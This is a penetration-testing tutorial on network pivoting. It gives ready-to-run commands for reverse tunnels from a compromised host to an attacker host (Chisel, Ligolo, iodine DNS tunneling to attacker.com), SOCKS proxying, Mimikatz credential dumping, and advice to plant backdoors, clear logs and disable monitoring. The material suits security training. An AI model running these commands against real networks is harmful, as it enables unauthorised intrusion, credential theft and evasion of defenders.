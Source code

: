 # Pivoting in Penetration Testing

## Introduction
Pivoting is a crucial technique in penetration testing that allows an attacker to use a compromised system as a bridge to access an otherwise restricted network. This enables lateral movement within an organization’s internal infrastructure. By leveraging pivoting, attackers can bypass security controls like firewalls and access sensitive internal resources.

## Types of Pivoting
1. **Network Pivoting** - Routing traffic through a compromised system to access internal networks.
2. **Port Forwarding** - Exposing services from an internal machine to the attacker's machine.
3. **VPN Pivoting** - Creating a VPN connection to route all traffic through the compromised host.
4. **SOCKS Proxy Pivoting** - Using a SOCKS proxy to tunnel traffic through a compromised host.
5. **Metasploit Pivoting** - Utilizing Metasploit's autoroute and SOCKS modules.
6. **Plink (PuTTY Link) Pivoting** - Using Plink for SSH tunneling.
7. **SSHuttle Pivoting** - Transparently routing traffic through an SSH connection.
8. **RDP Pivoting** - Using Remote Desktop Protocol (RDP) to access internal machines.
9. **ICMP Tunneling** - Encapsulating data within ICMP packets.
10. **DNS Tunneling** - Exfiltrating or tunneling data over DNS queries.

## Step-by-Step Guide to Pivoting

1. ### Compromise an Initial Host
  - Gain access to an external system using exploits, phishing, or credentials.
  - Obtain a shell or remote desktop access.

2. ### Identify Network Interfaces
  - Check available interfaces and network connections:
    ```bash
    ip a
    ip route
    ifconfig
    netstat -rn
    ```

  Identify internal IP ranges that may indicate private networks.

3. ### Enumerate Internal Network
  - Scan internal subnets using: `nmap -sP 10.10.0.0/24`
  - Check for active services: `nmap -sV -p 80,443,3389,445 10.10.0.10`
  - Extract credentials if possible (e.g., from memory dumps or configuration files).

4. ### Establish Pivoting
    - #### SSH Tunneling (Dynamic and Local Port Forwarding)
        - Create a SOCKS proxy to route traffic: `ssh -D 1080 -N user@compromised-host`
        - Use local port forwarding to expose internal services: `ssh -L 8080:10.10.0.10:80 user@compromised-host`
        - Then use ProxyChains
            - Modify /etc/proxychains.conf to use SOCKS5 proxy: `socks5 127.0.0.1 1080`
            - Run tools through ProxyChains: `proxychains nmap -sT 10.10.0.0/24` 
    - #### Chisel (Fast TCP/UDP Tunneling)
        - On the attacker's machine (server): `./chisel server -p 8080 --reverse`
        - On the compromised machine (client): `./chisel client 192.168.1.100:8080 R:1080:socks`
        - Use ProxyChains with Chisel for further tunneling.
    - #### Ligolo (Auto Route Creation)
        - Setup network configuration
          ```bash
              ip tuntap add user root mode tun ligolo
              ip link set ligolo up
          ```
        - On attacker's machine: `./ligolo -reverse -listen :9090`
        - On compromised machine: `./ligolo -connect attacker-ip:9090`
    - #### Metasploit Pivoting
        - Use autoroute to add routes through the compromised system: `run autoroute -s 10.10.0.0/24`
        - Use socks4a module to enable ProxyChains:
          ```bash
          use auxiliary/server/socks4a
          set SRVPORT 1080
          exploit
          ```
    - #### SSHuttle Pivoting
        - Transparently route traffic through an SSH connection: `sshuttle -r user@compromised-host 10.10.0.0/24`
    - #### Plink (PuTTY Link) Pivoting
        - Windows-based SSH tunneling: `plink.exe -D 1080 -N user@compromised-host`
    - #### RDP Pivoting
        - Use RDP to connect to internal machines: `xfreerdp /u:user /p:password /v:10.10.0.10`
    - #### ICMP Tunneling
        - Use tools like icmptunnel to route traffic over ICMP: `./icmptunnel -s attacker-ip`
    - #### DNS Tunneling
        - Use iodine to tunnel traffic over DNS: `iodine -f -P password -r attacker.com`
  
5. ### Routing Traffic Through Compromised Host
  - Use Metasploit’s autoroute to configure routes: `run autoroute -s 10.10.0.0/24`
  - Scan the internal network from Metasploit: `run post/multi/manage/autoroute`

6. ### Exploit Further and Move Laterally
  - Use credentials to access other machines (Pass-the-Hash, RDP, SMB, etc.).
  - Dump credentials using Mimikatz:
    ```bash
    mimikatz.exe
    sekurlsa::logonpasswords
    ```
  - Use SMB relay attacks to gain further access.

7. ### Maintain Access and Cover Tracks
  - Set up persistent backdoors (e.g., SSH keys, scheduled tasks).
  - Clear logs and disable security monitoring where possible.

## Conclusion
Pivoting is a powerful technique in penetration testing that allows an attacker to move deeper into a target network. Mastering tools like SSH, Chisel, Ligolo, Metasploit, and ProxyChains enables penetration testers to navigate restricted environments effectively.
